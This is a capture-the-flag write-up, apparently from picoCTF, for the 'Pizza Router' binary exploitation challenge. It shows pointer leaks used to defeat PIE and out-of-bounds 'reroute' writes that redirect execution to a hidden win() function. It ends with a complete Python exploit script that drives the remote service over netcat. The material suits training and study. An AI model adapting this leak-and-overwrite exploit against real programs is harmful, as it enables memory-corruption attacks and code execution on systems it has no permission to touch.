









# Pizza Router

**Category:** Binary Exploitation
**Difficulty:** Hard
**Author:** Palash Oswal

---

## Challenge Description

The challenge provides a pizza drone router binary without source code.
The program loads city maps, creates delivery orders, reroutes paths, and dispatches drones.

The available commands include:

```text
load
maps
add_order
reroute
dispatch
replay
receipt
help
```

The goal is to exploit the router and reach the hidden flag-printing functionality.

---

## Binary Information

I started by checking the binary properties:

```bash
file ./router
checksec --file=./router
```



The binary is:

```text
ELF 64-bit LSB PIE executable
x86-64
dynamically linked
not stripped
```

The protections show:

```text
Full RELRO
Canary found
NX enabled
PIE enabled
Not stripped
```

Important observations:

* The binary is **64-bit**.
* PIE is enabled, so code addresses are randomized at runtime.
* Full RELRO means the GOT is not a practical overwrite target.
* The binary is not stripped, which helps us recover useful symbol offsets.
* Since PIE is enabled, we need a code leak to calculate the PIE base.

---

## Discovering the Command Set

Since no source code was provided, I used `strings` to identify useful commands and output formats:

```bash
strings -a ./router | grep -E "help|load|maps|add_order|reroute|dispatch|replay|receipt|renderer|hint|flag"
```



The output revealed the command interface:

```text
load <map>
maps
add_order <x> <y>
reroute <id> <heap_idx> <new_cost>
dispatch <id>
replay <id>
receipt <id>
```

Two outputs were especially interesting:

```text
replay: %d points; renderer=%p
receipt: hops=%d coupon=%d total=%d hint=%p
```

So the binary intentionally leaks two pointers:

```text
renderer=%p
hint=%p
```

These leaks are the key to bypassing PIE and ASLR.

---

## Leaking Runtime Pointers

I tested the basic workflow using `city1`:

```bash
printf 'load city1\nadd_order 1 3\nreplay 0\nreceipt 0\nquit\n' | ./router
```



The program returned:

```text
replay: 6 points; renderer=0x557174903260
receipt: hops=6 coupon=0 total=6 hint=0x5571ab911b90
```

The two important leaks are:

```text
renderer = 0x557174903260
hint     = 0x5571ab911b90
```

The `renderer` leak is a code pointer, and the `hint` leak is a heap/object pointer.

---

## Recovering Symbol Offsets

Because the binary is not stripped, I used `objdump` to recover relevant offsets:

```bash
objdump -t ./router | grep -E "fx_draw_basic|win|ORD"
```



The important offsets are:

```text
fx_draw_basic = 0x2260
win           = 0x2460
ORD_N         = 0x5060
ORD           = 0x5080
```

The `renderer` leak points to `fx_draw_basic` at runtime.
Therefore, we can calculate the PIE base using:

```text
PIE base = leaked_renderer - fx_draw_basic_offset
```

---

## Calculating PIE Base

From the leak:

```text
renderer = 0x557174903260
```

And from the symbol table:

```text
fx_draw_basic = 0x2260
```

So:

```text
PIE base = 0x557174903260 - 0x2260
         = 0x557174901000
```

I confirmed this with a hexadecimal calculator.



Now that we have the PIE base, we can calculate runtime addresses.

---

## Calculating `win()` and `ORD`

The `win()` offset is:

```text
win offset = 0x2460
```

So:

```text
win = PIE base + 0x2460
    = 0x557174901000 + 0x2460
    = 0x557174903460
```

The `ORD` offset is:

```text
ORD offset = 0x5080
```

So:

```text
ORD = PIE base + 0x5080
    = 0x557174901000 + 0x5080
    = 0x557174906080
```



At this point, we have:

```text
PIE base = 0x557174901000
win      = 0x557174903460
ORD      = 0x557174906080
hint     = 0x5571ab911b90
```

---

## Understanding the Bug

The suspicious command is:

```text
reroute <id> <heap_idx> <new_cost>
```

The hint mentioned that indices crossing boundaries can affect heap memory.

The exploit abuses `reroute` with out-of-bounds `heap_idx` values.
This gives us a controlled write into internal router/order memory.

The final goal is to make `dispatch 49` call the hidden `win()` function.

---

## Calculating the Reroute Indices

The exploit uses `city1` and the order:

```text
add_order 1 3
```

The city width is 16, so the target order ID after the rewrite is:

```text
target_id = y * width + x
target_id = 3 * 16 + 1
target_id = 49
```

Using the leaked `hint`, the runtime `ORD`, and the runtime `win()`, I calculated the values needed for the two `reroute` calls.



The calculation produced:

```text
target_id  = 49
idx_to_ord = -115349349
new_x      = 1955607600
finish_idx = 131
win_high   = 21873
```

The two important writes are:

```text
reroute 0 <idx_to_ord> <new_x>
reroute 49 <finish_idx> <win_high>
```

Conceptually:

```text
First reroute  -> corrupts internal order/router data using an OOB index.
Second reroute -> completes the pointer/function redirection toward win().
dispatch 49   -> triggers the corrupted path and reaches win().
```

---

## Local Exploit Test

Because the program has a timeout, doing all calculations manually inside the interactive prompt is unreliable.
I created a local solver that performs the same steps automatically:

```text
1. load city1
2. add_order 1 3
3. replay 0
4. parse renderer leak
5. calculate PIE base
6. calculate win and ORD
7. receipt 0
8. parse hint leak
9. calculate reroute indices
10. send both reroute commands
11. dispatch 49
```



The local test reached the dummy flag:

```text
TESTFLAG{local_dummy_flag}
```

This confirmed that the exploit logic works.

---

## Final Exploit Script

```python
#!/usr/bin/env python3
import re
import subprocess
import sys
import os
import pty


PROMPT = b"router> "
ANSI_RE = re.compile(r"\x1b\[[0-9;]*m")

FX_DRAW_BASIC_OFF = 0x2260
WIN_OFF = 0x2460
ORD_OFF = 0x5080

CITY1_WIDTH = 16
TARGET_X = 1
TARGET_Y = 3
TARGET_ID_AFTER_REWRITE = TARGET_Y * CITY1_WIDTH + TARGET_X


def to_i32(value: int) -> int:
    value &= 0xFFFFFFFF
    if value & 0x80000000:
        return value - 0x100000000
    return value


def strip_ansi(text: str) -> str:
    return ANSI_RE.sub("", text)


class Remote:
    def __init__(self, host: str, port: int):
        master_fd, slave_fd = pty.openpty()
        self.proc = subprocess.Popen(
            ["nc", host, str(port)],
            stdin=slave_fd,
            stdout=slave_fd,
            stderr=slave_fd,
            close_fds=True,
        )
        os.close(slave_fd)
        self.fd = master_fd

    def recvuntil(self, marker: bytes) -> str:
        data = bytearray()
        while marker not in data:
            chunk = os.read(self.fd, 1)
            if not chunk:
                raise EOFError(data.decode(errors="replace"))
            data.extend(chunk)
        return data.decode(errors="replace")

    def cmd(self, line: str) -> str:
        os.write(self.fd, line.encode() + b"\n")
        return self.recvuntil(PROMPT)


def parse_ptr(text: str, label: str) -> int:
    match = re.search(label + r"=(0x[0-9a-fA-F]+)", text)
    if not match:
        raise ValueError(f"missing {label} in: {text!r}")
    return int(match.group(1), 16)


def main() -> None:
    if len(sys.argv) != 3:
        print(f"usage: {sys.argv[0]} HOST PORT", file=sys.stderr)
        raise SystemExit(1)

    host = sys.argv[1]
    port = int(sys.argv[2])

    io = Remote(host, port)
    io.recvuntil(PROMPT)

    io.cmd("load city1")
    io.cmd("add_order 1 3")

    replay = io.cmd("replay 0")
    pie = parse_ptr(replay, "renderer") - FX_DRAW_BASIC_OFF
    win = pie + WIN_OFF
    ord_base = pie + ORD_OFF

    receipt = io.cmd("receipt 0")
    target_renderer = parse_ptr(receipt, "hint")

    idx_to_ord = (ord_base - (target_renderer + 0x18)) // 8
    new_x = (win & 0xFFFFFFFF) - TARGET_Y * CITY1_WIDTH

    io.cmd(f"reroute 0 {idx_to_ord} {to_i32(new_x)}")

    finish_idx = (target_renderer + 0x430 - (target_renderer + 0x18)) // 8
    result = io.cmd(
        f"reroute {TARGET_ID_AFTER_REWRITE} {finish_idx} {to_i32(win >> 32)}"
    )

    if "reroute scheduled" not in result:
        raise RuntimeError(strip_ansi(result))

    final = strip_ansi(io.cmd(f"dispatch {TARGET_ID_AFTER_REWRITE}"))

    flag_match = re.search(r"(picoCTF\{[^\n]+\}|flag\{[^\n]+\}|TESTFLAG\{[^\n]+\})", final)
    if flag_match:
        print(flag_match.group(1))
    else:
        print(final, end="")


if __name__ == "__main__":
    main()
```

---

## Remote Exploitation

After launching the remote instance, I ran:

```bash
python3 solve.py mysterious-sea.picoctf.net 65405
```



The exploit successfully reached the flag:

```text
flag{...}
```

---

## Solution Summary

```text
1. Inspect the binary protections.
2. Discover the command set using strings.
3. Use replay 0 to leak renderer.
4. Compute PIE base:
   PIE = renderer - 0x2260
5. Compute win():
   win = PIE + 0x2460
6. Compute ORD:
   ORD = PIE + 0x5080
7. Use receipt 0 to leak hint.
8. Use the hint pointer to calculate OOB reroute indices.
9. Send the first reroute to corrupt internal order/router data.
10. Send the second reroute to finish redirecting execution.
11. Dispatch order 49.
12. Execution reaches win() and prints the flag.
```

---

## Tools Used

```text
file
checksec
strings
objdump
Hexadecimal calculator
Python
pwntools-style automation
netcat
```

---

## Key Takeaways

* PIE can be bypassed when the program leaks a code pointer.
* `replay 0` leaks a renderer function pointer.
* `receipt 0` leaks an internal heap/object pointer.
* Out-of-bounds indices in heap-related commands can corrupt internal structures.
* The exploit depends on calculating runtime addresses from leaks.
* Because ASLR changes addresses every run, manual exploitation is unreliable.
* Automating the leak, calculation, corruption, and dispatch steps is the correct strategy.

---

## Final Flag

```text
flag{...REDACTED...}
```
